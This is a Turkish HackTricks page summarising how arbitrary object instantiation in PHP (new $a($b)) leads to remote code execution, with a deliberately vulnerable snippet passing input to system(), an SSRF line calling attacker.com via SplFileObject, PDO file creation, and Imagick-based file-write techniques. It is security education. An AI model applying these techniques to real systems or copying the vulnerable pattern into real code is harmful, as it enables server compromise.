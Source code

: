 # PHP - RCE nesne oluşturma istismar: new $\_GET\["a"]\($\_GET\["b"])

{% hint style="success" %}
AWS Hacking öğrenin ve pratik yapın:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking öğrenin ve pratik yapın: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Takım Uzmanı (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** **bizi takip edin** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

Bu, [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/) adresinin temel bir özetidir.

## Giriş

`new $_GET["a"]($_GET["a"])` gibi yeni rastgele nesnelerin oluşturulması, [**yazıda**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/) detaylandırıldığı gibi Uzaktan Kod Yürütme (RCE) ile sonuçlanabilir. Bu belge, RCE elde etmenin çeşitli stratejilerini vurgulamaktadır.

## Özel Sınıflar veya Otomatik Yükleme ile RCE

`new $a($b)` sözdizimi, **`$a`** sınıf adını ve **`$b`** yapıcıya geçirilen ilk argümanı temsil eden bir nesne oluşturmak için kullanılır. Bu değişkenler, GET/POST gibi kullanıcı girdilerinden, string veya dizi olarak veya JSON'dan, diğer türler olarak elde edilebilir.

Aşağıdaki kod parçasını düşünün:
```php
class App {
function __construct ($cmd) {
system($cmd);
}
}

class App2 {
function App2 ($cmd) {
system($cmd);
}
}

$a = $_GET['a'];
$b = $_GET['b'];

new $a($b);
```
Bu durumda, `$a`'yı `App` veya `App2` olarak ve `$b`'yi bir sistem komutu (örneğin, `uname -a`) olarak ayarlamak, o komutun çalıştırılmasına neden olur.

**Otomatik yükleme fonksiyonları**, doğrudan erişilebilen böyle sınıflar yoksa istismar edilebilir. Bu fonksiyonlar, ihtiyaç duyulduğunda dosyalardan sınıfları otomatik olarak yükler ve `spl_autoload_register` veya `__autoload` kullanılarak tanımlanır:
```php
spl_autoload_register(function ($class_name) {
include './../classes/' . $class_name . '.php';
});

function __autoload($class_name) {
include $class_name . '.php';
};

spl_autoload_register();
```
Otomatik yüklemenin davranışı PHP sürümlerine göre değişiklik gösterir ve farklı RCE olasılıkları sunar.

## Yerleşik Sınıflar ile RCE

Özel sınıflar veya otomatik yükleyiciler yoksa, **yerleşik PHP sınıfları** RCE için yeterli olabilir. Bu sınıfların sayısı PHP sürümüne ve uzantılara bağlı olarak 100 ile 200 arasında değişir. `get_declared_classes()` kullanılarak listelenebilirler.

İlgili yapıcılar, aşağıdaki örnekte ve bağlantıda gösterildiği gibi, yansıma API'si aracılığıyla tanımlanabilir: [https://3v4l.org/2JEGF](https://3v4l.org/2JEGF).

**Belirli yöntemler aracılığıyla RCE şunları içerir:**

### **SSRF + Phar Deserialization**

`SplFileObject` sınıfı, yapıcısı aracılığıyla SSRF'yi etkinleştirir ve herhangi bir URL'ye bağlantılara izin verir:
```php
new SplFileObject('http://attacker.com/');
```
SSRF, PHP'nin 8.0'dan önceki sürümlerinde Phar protokolünü kullanarak deserialization saldırılarına yol açabilir.

### **PDO'ları Sömürmek**

PDO sınıfı yapıcı fonksiyonu, DSN dizeleri aracılığıyla veritabanlarına bağlantılara izin verir, bu da dosya oluşturma veya diğer etkileşimleri mümkün kılabilir:
```php
new PDO("sqlite:/tmp/test.txt")
```
### **SoapClient/SimpleXMLElement XXE**

PHP'nin 5.3.22 ve 5.4.12 sürümleri, libxml2 sürümüne bağlı olarak `SoapClient` ve `SimpleXMLElement` yapıcıları aracılığıyla XXE saldırılarına karşı savunmasızdı.

## RCE via Imagick Extension

**Proje bağımlılıklarının** analizinde, **Imagick**'in yeni nesne örnekleri oluşturarak **komut yürütme** için kullanılabileceği keşfedildi. Bu, güvenlik açıklarından yararlanma fırsatı sunar.

### VID parser

Dosya sisteminde belirtilen herhangi bir yola içerik yazma yeteneğine sahip VID parser'ın varlığı tespit edildi. Bu, web erişilebilir bir dizine bir PHP shell yerleştirilmesine yol açabilir ve Uzak Kod Yürütme (RCE) sağlanabilir.

#### VID Parser + Dosya Yükleme

PHP'nin yüklenen dosyaları geçici olarak `/tmp/phpXXXXXX` dizininde sakladığı belirtilmiştir. Imagick'teki VID parser, **msl** protokolünü kullanarak dosya yollarında joker karakterleri işleyebilir ve geçici dosyayı seçilen bir konuma taşıyabilir. Bu yöntem, dosya sisteminde keyfi dosya yazma elde etmek için ek bir yaklaşım sunar.

### PHP Çökmesi + Kaba Kuvvet

[**orijinal yazımda**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/) tanımlanan bir yöntem, silinmeden önce bir sunucu çökmesine neden olan dosyaların yüklenmesini içerir. Geçici dosyanın adını kaba kuvvetle tahmin ederek, Imagick'in keyfi PHP kodu yürütmesi mümkün hale gelir. Ancak, bu tekniğin yalnızca eski bir ImageMagick sürümünde etkili olduğu bulunmuştur.

## Referanslar

* [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
